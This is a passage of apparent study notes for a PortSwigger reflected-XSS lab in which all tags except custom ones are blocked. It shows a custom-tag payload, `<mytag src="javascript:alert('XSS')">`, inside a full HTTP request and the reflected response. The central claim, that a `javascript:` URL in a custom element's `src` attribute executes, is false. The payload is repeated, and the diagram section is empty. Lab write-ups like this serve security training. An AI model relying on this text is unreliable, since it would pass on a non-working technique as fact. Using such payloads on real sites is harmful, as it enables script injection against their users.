

## Exploiting Custom Tags

### Identifying Custom Tags

Once we have identified the allowed tags, we can focus on exploiting them. In this lab, the challenge is that all standard HTML tags are blocked except for custom ones. We need to identify which custom tags are allowed and use them to execute arbitrary JavaScript.

#### Example of Custom Tags

Suppose the web application allows the following custom tags:

```plaintext
<mytag>, <customtag>
```

We can use these custom tags to inject malicious scripts. For example, we can create a custom tag that executes JavaScript:

```html
<mytag src="javascript:alert('XSS')">
```

### Crafting the Payload

To craft the payload, we need to ensure that the custom tag is properly formatted and can execute JavaScript. Here is an example of a payload using the custom tag:

```html
<mytag src="javascript:alert('XSS')">
```

This payload will cause the browser to execute the JavaScript code inside the `src` attribute.

### Full HTTP Request and Response

#### HTTP Request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded

query=<mytag src="javascript:alert('XSS')">
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <h1>Search Results for: <mytag src="javascript:alert('XSS')"></h1>
</body>
</html>
```

### Expected Result

When the user's browser renders the HTML response, it will execute the JavaScript code inside the `src` attribute, displaying an alert box.

### Mermaid Diagram: Exploitation Process



---
<!-- nav -->
[[06-Crafting the Exploit|Crafting the Exploit]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/19-Lab 18 Reflected XSS into HTML context with all tags blocked except custom ones/00-Overview|Overview]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/19-Lab 18 Reflected XSS into HTML context with all tags blocked except custom ones/08-Hands-On Labs|Hands-On Labs]]
